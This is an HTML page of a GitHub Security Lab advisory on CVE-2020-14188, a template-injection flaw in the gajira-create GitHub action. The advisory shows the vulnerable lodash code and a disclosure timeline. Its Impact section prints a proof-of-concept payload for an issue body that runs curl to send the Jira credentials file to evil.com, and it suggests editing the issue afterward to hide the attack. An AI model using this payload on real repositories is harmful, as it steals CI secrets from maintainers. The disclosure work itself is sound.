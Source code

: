 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">December 3, 2020</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-172: Undocumented template expression evaluation in the gajira-create GitHub action - CVE-2020-14188</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/jarlob">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/26652396?s=35" height="35" width="35">
        <span>Jaroslav Lobacevski</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="summary">Summary</h2>

<p>The <a href="https://github.com/atlassian/gajira-create">gajira-create GitHub action</a> supports undocumented template syntax that may lead to arbitrary code execution.</p>

<h2 id="product">Product</h2>

<p><a href="https://github.com/atlassian/gajira-create">gajira-create GitHub action</a></p>

<h2 id="tested-version">Tested Version</h2>

<p>2.0.0</p>

<h2 id="details">Details</h2>

<h3 id="issue-the-potentially-untrusted-input-values-summary-and-description-are-evaluated-as-code-by-nodejs">Issue: The potentially untrusted input values <code class="language-plaintext highlighter-rouge">summary</code> and <code class="language-plaintext highlighter-rouge">description</code> are evaluated as code by node.js</h3>

<p>The action supports additional template transformation of the <code class="language-plaintext highlighter-rouge">summary</code> and <code class="language-plaintext highlighter-rouge">description</code> input values - all placeholders between double braces like `` are replaced with the according values from <code class="language-plaintext highlighter-rouge">github.event</code> context. The intention most probably was to use it like:</p>

<div class="language-yaml highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="na">uses</span><span class="pi">:</span> <span class="s">atlassian/gajira-create@v2.0.0</span>
<span class="na">with</span><span class="pi">:</span>
    <span class="na">summary</span><span class="pi">:</span> <span class="pi">|</span>
    <span class="s">Issue {{ event.issue.title }} created by {{ event.issue.user.login }}</span>
    <span class="s">description: |</span>
    <span class="s">{{ event.issue.body }}</span>
</code></pre></div></div>

<p>i.e. without the dollar sign and the root <code class="language-plaintext highlighter-rouge">github</code> context object.</p>

<p>However this feature is not documented and the built-in GitHub context expressions are used by the users of the action instead, like:</p>

<div class="language-yaml highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="na">uses</span><span class="pi">:</span> <span class="s">atlassian/gajira-create@v2.0.0</span>
<span class="na">with</span><span class="pi">:</span>
    <span class="na">summary</span><span class="pi">:</span> <span class="pi">|</span>
    <span class="s">${{ github.event.issue.title }}</span>
    <span class="s">description: |</span>
    <span class="s">${{ github.event.issue.body }}</span>
</code></pre></div></div>

<p>This may lead to a double template evaluation if the user input contains <code class="language-plaintext highlighter-rouge">{{}}</code> itself. There is even a <a href="https://github.com/atlassian/gajira-create/issues/8">public issue</a> created by one of the action users that proves it does happen.</p>

<p>The internal template feature is implemented in a way that the user input is interpreted as javascript:</p>

<div class="language-js highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="kd">const</span> <span class="nx">_</span> <span class="o">=</span> <span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">lodash</span><span class="dl">'</span><span class="p">)</span>

<span class="nx">_</span><span class="p">.</span><span class="nx">templateSettings</span><span class="p">.</span><span class="nx">interpolate</span> <span class="o">=</span> <span class="sr">/{{</span><span class="se">([\s\S]</span><span class="sr">+</span><span class="se">?)</span><span class="sr">}}/g</span>
<span class="kd">const</span> <span class="nx">summaryTmpl</span> <span class="o">=</span> <span class="nx">_</span><span class="p">.</span><span class="nx">template</span><span class="p">(</span><span class="k">this</span><span class="p">.</span><span class="nx">argv</span><span class="p">.</span><span class="nx">summary</span><span class="p">)</span>
<span class="kd">const</span> <span class="nx">descriptionTmpl</span> <span class="o">=</span> <span class="nx">_</span><span class="p">.</span><span class="nx">template</span><span class="p">(</span><span class="k">this</span><span class="p">.</span><span class="nx">argv</span><span class="p">.</span><span class="nx">description</span><span class="p">)</span>

<span class="k">this</span><span class="p">.</span><span class="nx">argv</span><span class="p">.</span><span class="nx">summary</span> <span class="o">=</span> <span class="nx">summaryTmpl</span><span class="p">({</span> <span class="na">event</span><span class="p">:</span> <span class="k">this</span><span class="p">.</span><span class="nx">githubEvent</span> <span class="p">})</span>
<span class="k">this</span><span class="p">.</span><span class="nx">argv</span><span class="p">.</span><span class="nx">description</span> <span class="o">=</span> <span class="nx">descriptionTmpl</span><span class="p">({</span> <span class="na">event</span><span class="p">:</span> <span class="k">this</span><span class="p">.</span><span class="nx">githubEvent</span> <span class="p">})</span>
</code></pre></div></div>

<h4 id="impact">Impact</h4>

<p>This vulnerability allows for arbitrary code execution in the context of a GitHub runner. For example a user may create an issue with the title <code class="language-plaintext highlighter-rouge">It doesn't work on my machine</code> and the body</p>

<div class="language-js highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="p">{{</span> <span class="nx">process</span><span class="p">.</span><span class="nx">mainModule</span><span class="p">.</span><span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">child_process</span><span class="dl">'</span><span class="p">).</span><span class="nx">exec</span><span class="p">(</span><span class="s2">`curl -d @</span><span class="p">${</span><span class="nx">process</span><span class="p">.</span><span class="nx">env</span><span class="p">.</span><span class="nx">HOME</span><span class="p">}</span><span class="s2">/.jira.d/credentials http://evil.com`</span><span class="p">)</span> <span class="p">}}</span>
</code></pre></div></div>

<p>which will exfiltrate the secret Jira API token to the attacker controlled server. To make the attack less visible an attacker may modify the body of the issue to <code class="language-plaintext highlighter-rouge">Never mind my bad.</code> and close it.</p>

<h2 id="cve">CVE</h2>

<p>CVE-2020-14188</p>

<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>10/14/2020: Report sent to vendor</li>
  <li>10/14/2020: Vendor acknowledges report receipt</li>
  <li>10/21/2020: Issue fixed in v2.0.1</li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/JarLob">@JarLob (Jaroslav Lobačevski)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-172</code> in any communication regarding this issue.</p>

   